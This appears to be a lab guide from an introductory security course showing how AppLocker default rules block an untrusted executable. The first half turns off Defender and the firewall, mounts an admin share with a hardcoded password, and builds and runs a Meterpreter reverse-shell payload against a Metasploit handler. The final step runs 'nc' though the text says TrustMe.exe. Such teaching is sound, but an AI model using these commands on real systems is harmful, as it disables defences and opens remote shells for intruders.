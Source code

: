 # AppLocker

Applocker Instructions:

Let’s see what happens when we do not have **AppLocker** running.  We will set up a simple backdoor and have it connect back to the **Kali** system.  Remember, the goal is not to show how we can bypass **EDR** and **Endpoint** products.  It is to create a simple backdoor and have it connect back.

Before we begin, we need to disable **Defender**. Start by opening an instance of **Windows Powershell**. Do this by clicking on the **Powershell** icon in the taskbar.

![](attachments/OpeningPowershell.png)

Next, run the following command in the **Powershell** terminal:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/applocker_disabledefender.png)

This will disable **Defender** for this session.

If you get angry red errors, that is **Ok**, it means **Defender** is not running.

Next, lets ensure the firewall is disabled. In a Windows Command Prompt.

<pre> netsh advfirewall set allprofiles state off</pre>


Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Before we move on from our Powershell window, lets get our IP by running the following command:

<pre>ipconfig</pre>

![](attachments/powershellipconfig.png)

**REMEMBER - YOUR IP WILL BE DIFFERENT**

Write this IP down so we can use it again later.

Let’s continue by opening a **Kali** instance.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's start by getting root access in our terminal.

<pre>sudo su -</pre>

We need to run the following command in order to mount our remote system to the correct directory:

<pre>mount -t cifs //[Your IP Address]/c$ /mnt/windows-share -o username=Administrator,password=T@GEq5%r2XJh</pre>

**REMEMBER - YOUR IP ADDRESS WILL LIKELY BE DIFFERENT.**

If you see the following error, it means that the device is already mounted.

![](attachments/mounterror.png)

If this is the case, just run the following command to navigate into the mounted directory:

<pre>cd /mnt/windows-share</pre>

Run the following commands to start a simple backdoor and backdoor listener: 

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[YOUR IP Address] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe</pre>

Let's start the **Metasploit Handler**.  First, open a new **Kali** instance. The easiest way to do this is by clicking on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before doing anything else, we need to run the following command in our new terminal window:

<pre>msfconsole -q</pre>

![](attachments/msfconsole.png)

The **Metasploit Handler** successfully ran if the terminal now starts with **"msf6 >"**

Next, let's run the following:

<pre>use exploit/multi/handler</pre>

Now run all of the following commands to set the correct parameters:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST 10.10.81.56</pre>

**REMEMBER - YOUR IP WILL LIKELY BE DIFFERENT!**

Go ahead and run the exploit:

<pre>exploit</pre>

It should look like this:

![](attachments/msf6commands.png)

Let’s download the malware and run it!

Open a **Windows** command prompt. Do this by clicking on the icon in the taskbar.

![](attachments/OpeningWindowsCommandPrompt.png) 

Once the prompt is open, let's run the following commands to run the **"TrustMe.exe"** file.

<pre>cd \</pre>

<pre>TrustMe.exe</pre>

![](attachments/runtrustme.png)

Back at your **Kali** terminal, you should now have a **metasploit** session!

![](attachments/meterpretersession.png)

Let’s stop this from happening!

To do this we will need to access the **"Local Security Policy"** on your **Windows** System.

Simply press the Windows key, (lower left hand of your keyboard, looks like a Windows Logo), then type **"Local Security"**.  It should bring up a menu like the one below, please select **"Local Security Policy"**.

![](attachments/localsecuritypolicy.png)

We will need to configure **AppLocker**.  To do this, please go to Security Settings > Application Control Policies > AppLocker.

![](attachments/localsecpolicywindow.png)

Scroll down in the right hand pane. You will see there are **"0 Rules enforced"** for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to break a system.

![](attachments/rulesoverview.png)

Please select each of the above Rule groups, **"Executable, Windows Installer, Script, and Packaged,"** and for each one, right click in the area that says **“There are no items to show in this view.”** and then select **“Create Default Rules”**.

![](attachments/createdefaultrules.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 

![](attachments/appliedrules.png)

For simplicity, you can click the next set of rules from the left panel as seen above.

We now need to enforce the rules:

To do this you will need to select **AppLocker** on the far left pane.  You will need to select **"Configure rule enforcement"**.  This will open a pop-up. Check the **"Configured"** box for each set of rules.  

![](attachments/ruleenforcement.png)

We will need to start the **"Application Identity service"**.  This is done through pressing the Windows key and typing **"Services"**.  

![](attachments/services.png)

This will bring up the **Services App**.  Double-click **“Application Identity”**.

![](attachments/applicationidentity.png)

Once the **"Application Identity Properties"** dialog is open, please press the **Start** button.  This will start the service.

![](attachments/startservice.png)

Open a command prompt and run **"gpupdate"** to force the policy change.

![](attachments/OpeningWindowsCommandPrompt.png)

<pre>gpupdate /force</pre>

We are now going to try to run **"TrustMe.exe"** as another user on the system. 

Run the following commands:

<pre>cd /IntroLabs</pre>

<pre>runas /user:whitelist "nc"</pre>

The password is **adhd**

![](attachments/runas.png)

As you can see, an error was generated, meaning that we were successful!

***

[Back to Navigation Menu](/IntroClassFiles/navigation.md)
